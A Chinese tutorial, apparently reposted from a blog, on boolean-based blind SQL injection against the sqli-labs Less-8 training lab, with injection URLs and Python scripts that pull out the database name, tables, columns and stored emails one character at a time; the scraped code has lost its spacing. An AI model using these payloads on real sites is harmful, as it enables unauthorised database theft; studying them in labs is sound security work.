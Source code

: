 # 基于布尔的盲注入

[http://www.jb51.net/article/93445.htm](http://www.jb51.net/article/93445.htm)

**基于布尔的盲注**

Web的页面的仅仅会返回True和False。那么布尔盲注就是进行SQL注入之后然后根据页面返回的True或者是False来得到数据库中的相关信息。

由于本次是布尔注入，手注无法完整地进行脱裤。所以在本节需要编写大量的代码来帮助我们进行SQL注入，得到数据。所以在这章里面会有很多的Python代码。

本次的示例就是Less-8。

通过进行下面的语句的注入测试

```text
http://localhost/sqlilabs/Less-8/?id=2'
http://localhost/sqlilabs/Less-8/?id=2"
http://localhost/sqlilabs/Less-8/?id=2\
```

进行测试的时候，只有在`id=2'`的时候页面无法显示内容。输入的语句如果符合要求，页面就会显示内容，但是显示的内容都是一样的。这种情况下页面上的输出对于我们来说是完全没有用的，包括SQL执行出错的信息都不会在页面上显示。这种情况下之前的通过执行SQL语句然后在页面上显示SQL执行之后返回的信息完全是不可能的啦。这种情况下就是一个典型的SQL盲注了。

我们通过页面是否显示内容来判断我们的SQL语句是否正确，进而猜解数据库的信息。

通过上面的注入测试，我们知道后台的SQL的注入语句的写法是:

```text
select field from table where id='userinput'
```

id参数是被单引号包括的。其他的信息我们就无法得到了。

**得到数据库的名称**

在得到数据库的名称之前，首先需要得到数据库的长度

[?](http://www.jb51.net/article/93445.htm#)

| 1234 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`' and length(database())>1 %23`[`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'andlength(database())>2 %23以此类推.....` |
| :--- | :--- |


发现当值为8的时候，页面就没有显示。那么说明`database()`的长度是8。

得到了`datbase()`的长度之后，接下来就是得到`database()`的名称了。

这个时候就不能完全靠手注了，必须编写Python代码来完成。其中最主要就是进行大量的注入测试来判断程序执行正确和出错的时机，然后断定当前的值可能就是正确的值。

下面就是一个简单的使用Python来进行布尔盲注获取数据的代码。

[?](http://www.jb51.net/article/93445.htm#)

| 123456789101112131415 | `defget_db_name():result=""url_template="`[`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`' and ascii(substr(database(),{0},1))>{1} %23"chars='0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'foriinrange(1,9):forcharinchars:char_ascii=ord(char)url=url_template.format(i,char_ascii)response=requests.get(url)length=len(response.text)#返回的长度只有706和722iflength>706:result+=charbreakprint(result)` |
| :--- | :--- |


得到最后的结果的是security，是正确的。

**得到数据库中的表信息**

其实所有的SQL注入步骤都是类似的。首先得到数据库的名称\(这一步不是必须的\)，然后得到当前数据库的表名称，然后得到表的字段，最后进行脱裤。这个步骤在[前一章](http://www.jb51.net/article/93442.htm)已经有说明了。

首先看一个简单的SQL盲注获取数据库表信息的写法。

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'andascii(substr((selecttable_namefrominformation_schema.tableswheretable_schema=database() limit 0,1),1,1))>60 %23` |
| :--- | :--- |


其实还是使用之前的`select table_name from information_schema.tables where table_schema=database() limit 0,1`这样的语句来得到表的信息，但是现在是无法在页面上显示的，而是通过盲注来一个字符一个字符的获取表名。

接下也同样是通过编写Python代码来获取表名了。代码也和上面的类似。主要就是修改中的URl。在进行Python获取表名之前，我们同样需要知道表名的长度。

使用如下的语句就可以得到了。

获取表名的SQL注入的写法就是如下

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'and(selectlength(table_name)frominformation_schema.tableswheretable_schema=database() limit 0,1)>0 %23` |
| :--- | :--- |


通过这种方式我们知道数据库表中的第一个表名的长度是6。知道了表名的长度之后，接下来的Python脚本就很好写了。

[?](http://www.jb51.net/article/93445.htm#)

| 123456789101112131415 | `defget_table_name():result=""url_template="`[`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),{0},1))>{1} %23"chars='0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'foriinrange(1,7):forcharinchars:char_ascii=ord(char)url=url_template.format(i,char_ascii)response=requests.get(url)length=len(response.text)#返回的长度只有706和722iflength>706:result+=charbreakprint(result)` |
| :--- | :--- |


最后得到了第一个表名是emails,如果要得到其他的表名只需要将代码`limit 0,1`修改成为`limit 1,1`或者是其他的就可以了。

**得到表名的列信息**

在得到列名之前，同样需要知道在表中的字段长度。例如我们想要知道在emails表中的长度，那么就可以使用如下的语句来获取。

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'and(selectlength(column_name)frominformation_schema.columnswheretable_name=0x656d61696c73 limit 0,1)>【num】 %23` |
| :--- | :--- |


修改num的值即可，从0开始一直到到程序出错。通过这种方法，我们得到在emails中存在2个字段，字段的长度分别是2，8。  
得到了字段长度之后，接下来就是进行布尔注入得到字段名称了。

在编写代码之前，还是来看如何写获取字段名称的sql语句吧。下面这个代码就是用来获取字段名称的代码。

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'andascii(substr((selectcolumn_namefrominformation_schema.columnswheretable_name=0x656d61696c73 limit 0,1),1,1))>60 %23` |
| :--- | :--- |


我们编写的Python代码也是利用上面这个代码来获取字段名称。

[?](http://www.jb51.net/article/93445.htm#)

| 123456789101112131415 | `defget_column_name():result=""url_template="`[`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`' and ascii(substr((select column_name from information_schema.columns where table_name=0x656d61696c73 limit 0,1),{0},1))>{1} %23"chars='0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz'foriinrange(1,3):forcharinchars:char_ascii=ord(char)url=url_template.format(i,char_ascii)response=requests.get(url)length=len(response.text)#返回的长度只有706和722iflength>706:result+=charbreakprint(result)` |
| :--- | :--- |


通过上面这个代码，我们可以得到在emails表中存在的字段名称分别是`id`和`email_id`

**脱裤**

在得到了字段名称之后，接下来最重要的一步就是进行脱裤了。  
在进行脱裤之前，我们首先判断在emails表中有多少条记录。

使用的语句如下：

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'and(selectcount(*)fromemails)>0 %23` |
| :--- | :--- |


修改&gt;0中的0依次为1，2，3之后，我们得到在emails表中一共存在8条记录。

那么接下来就是进行脱裤了。

在脱裤之前，我们首先要知道当前记录的长度，这个SQL语句也很好写。

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'and(selectlength(email_id)fromemails limit 0,1)>15 %23` |
| :--- | :--- |


最后我们知道在emails表中的第一条记录中的`email_id`的长度是16.

知道了长度之后，代码就很好写了。

[?](http://www.jb51.net/article/93445.htm#)

| 123456789101112131415 | `defget_data():result=""url_template="`[`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`' and ascii(substr((select email_id from emails limit 0,1),{0},1))>{1} %23"chars='.0123456789@ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz'foriinrange(1,17):forcharinchars:char_ascii=ord(char)url=url_template.format(i,char_ascii)response=requests.get(url)length=len(response.text)#返回的长度只有706和722iflength>706:result+=charbreakprint(result)` |
| :--- | :--- |


通过上面的这段代码就得到了内容是Dumb@dhakkan.com,其他的内容就同样通过这段方式得到数据了。这里就不作演示了。

**总结**

其实基于布尔盲注和基于时间的盲注都是需要编写大量的代码，就像本篇的文章一样。之前在简单的SQL注入中，一句SQL注入代码就可以解决的问题在这里就需要编写Python代码来进行大量的注入测试才能够得到内容。其实之前我也很少完整的用Python来编写SQL注入代码完成整个布尔盲注的注入过程。通过本章的编写，熟悉了使用Python代码完整地进行一次布尔盲注的过程了，学习了很多。以上就是这篇文章的全部内容了，希望对大家能有所帮助。

